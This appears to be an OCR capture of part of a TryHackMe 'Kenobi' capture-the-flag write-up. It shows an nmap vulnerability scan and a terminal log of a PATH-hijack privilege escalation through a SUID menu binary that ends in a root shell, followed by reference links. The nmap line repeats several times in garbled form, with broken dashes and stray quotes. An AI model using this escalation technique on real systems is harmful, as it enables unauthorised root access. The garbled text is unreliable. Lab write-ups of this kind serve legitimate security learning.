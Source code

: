 ```nmap -sV -vv --script=vuln TARGET_IP```nmap -sV -vv——script=vuln TARGET_IP ' ' 'nmap -sV -vv——script=vuln TARGET_IP ' ' ' nmap -sV -vv——script=vuln TARGET_IP ' ' '
        kenobi@kenobi:/tmp$ chmod 700 curl
        kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
        kenobi@kenobi:/tmp$ /usr/bin/menu

        ***************************************
        1. status check
        2. kernel version
        3. ifconfig
        ** Enter your choice :1
        bash: groups: command not found
        bash: lesspipe: command not found
        bash: dircolors: command not found
        root@kenobi:/tmp#
        ```
        
## Reference 

[Kenobi](https://tryhackme.com/room/kenobi)

[smbclient操作命令，服务器文件传输](https://www.jianshu.com/p/17224c6889ef)

[Linux添加新硬盘并挂载(mount)到目录下](https://blog.csdn.net/qq6759/article/details/85319274)

[export用法和环境变量](https://blog.csdn.net/weixin_38932035/article/details/102754964)
